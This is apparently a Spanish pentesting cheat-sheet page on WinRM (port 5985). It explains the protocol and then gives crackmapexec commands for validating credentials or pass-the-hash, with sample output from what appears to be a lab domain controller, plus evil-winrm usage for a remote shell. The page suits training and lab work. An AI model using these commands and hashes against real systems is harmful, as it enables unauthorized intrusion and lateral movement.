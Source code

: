 # Port 5985 - WinRM

WinRM (Windows Remote Management) es un protocolo de administración remota desarrollado por Microsoft para la administración de sistemas operativos Windows. WinRM permite a los administradores controlar y administrar de forma remota servidores y estaciones de trabajo Windows. A través de WinRM, los administradores pueden ejecutar comandos y scripts, obtener información del sistema, configurar el firewall, entre otras funciones de administración remota.

Los usuarios pertenecientes al grupo Remote Managment Users cuentan con capacidad de WinRm, por lo que si conocemos sus credenciales tendremos capacidad de ejecución remota de comandos.



## Explotación

Validar si un determinado usuario tiene capacidad de WinRM:

```bash
crackmapexec winrm <TARGET-IP> -u '<USER>' -p '<PASSWD>' [-H '<NT-HASH>']

crackmapexec winrm 10.10.10.192 -u 'svc_backup' --hash '9658d1d1dcd9250115e2205d9f48400d'
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

```

Conectarse a este servicio con evilwinrm

```
gem install evilwinrm # Instalar evilwinrm 

evilwinrm -i <HOST> -u <USER> -H <NT-HASH>
```
